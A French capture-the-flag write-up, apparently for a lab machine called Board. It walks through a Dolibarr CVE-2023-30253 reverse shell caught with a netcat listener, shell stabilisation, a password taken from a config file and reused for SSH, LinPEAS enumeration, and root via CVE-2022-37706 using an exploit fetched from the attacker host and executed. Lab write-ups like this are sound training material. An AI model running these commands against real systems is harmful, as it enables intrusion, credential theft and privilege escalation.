 ### 💥 Phase 3 : Exploitation Dolibarr (CVE-2023-30253)

```bash
# 1. Démarrer un listener pour le reverse shell
nc -lnvp 4455

# 2. Exploitation via le site ou outil automatique
# → Obtention d'un shell www-data

# 3. Stabilisation du shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# (Ctrl+Z puis)
stty raw -echo; fg
stty rows 38 columns 160
```

### 🔑 Phase 4 : Pivoting vers larissa

```bash
# 1. Récupération des credentials dans la config Dolibarr
cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
# → Trouve le mot de passe MySQL : serverfun2$2023!!

# 2. Test de réutilisation du mot de passe pour SSH
ssh larissa@board.htb
# Password: serverfun2$2023!!
# → Connexion réussie !

# 3. Récupération du user flag
cat ~/user.txt
```

### 🔍 Phase 5 : Énumération système

```bash
# 1. Téléchargement de LinPEAS
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

# 2. Exécution de LinPEAS
chmod +x linpeas.sh
./linpeas.sh
# → Identifie la version vulnérable d'enlightenment (CVE-2022-37706)
```

### 👑 Phase 6 : Escalade de privilèges (CVE-2022-37706)

```bash
# 1. Sur la machine attaquante : servir l'exploit
python3 -m http.server 8000

# 2. Sur la cible : télécharger l'exploit
wget http://10.10.14.41:8000/exploit.sh
chmod +x exploit.sh

# 3. Exécuter l'exploit
./exploit.sh
# → SUID shell root obtenu !

# 4. Récupération du root flag
cat /root/root.txt
```

---
